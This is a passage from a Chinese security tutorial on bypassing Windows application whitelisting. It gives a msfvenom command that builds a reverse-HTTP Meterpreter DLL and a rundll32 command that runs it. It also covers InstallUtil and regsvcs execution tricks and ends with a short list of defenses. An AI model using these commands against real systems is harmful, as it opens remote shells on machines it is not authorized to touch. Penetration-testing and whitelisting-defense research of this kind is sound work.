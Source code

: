**b、**反弹meterpreter

kali下：

```
msfvenom -p windows/meterpreter/reverse_http -f dll LHOST=192.168.174.133 LPORT=8080>./a.dll

```

生成a.dll,然后上传至测试主机

执行

```
rundll32.exe a.dll,Control_RunDLL

```

即可上线

如图

![Alt text](http://drops.javaweb.org/uploads/images/c43179463897b20d774088c39d30e510ab52327f.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/58897e15e1ca55e685ac55258eb227080cf0a415.jpg)

### 7、利用InstallUtil

利用InstallUtil.exe直接执行shellcode 成功

如果有Microsoft .NET Framework 4.0环境，可用来执行exe

（可参照[http://drops.wooyun.org/tips/8701](http://drops.wooyun.org/tips/8701),[http://drops.wooyun.org/tips/8862](http://drops.wooyun.org/tips/8862)）

### 8、利用regsvcs

成功

（可参照[http://drops.wooyun.org/tips/10667](http://drops.wooyun.org/tips/10667)）

0x06 防御
=======

* * *

1.  严格控制文件写入权限
2.  禁用mshta.exe阻止hta的运行
3.  禁用powershell
4.  防止被提权

0x07 小结
=======

* * *

随着研究的逐渐深入，我们不难发现：利用InstallUtil、regsvcs是绕过白名单限制的一把利器，无论是攻击还是防御，对此部分都要尤其重视。

而利用rundll32.exe的技巧，正在慢慢被发掘。
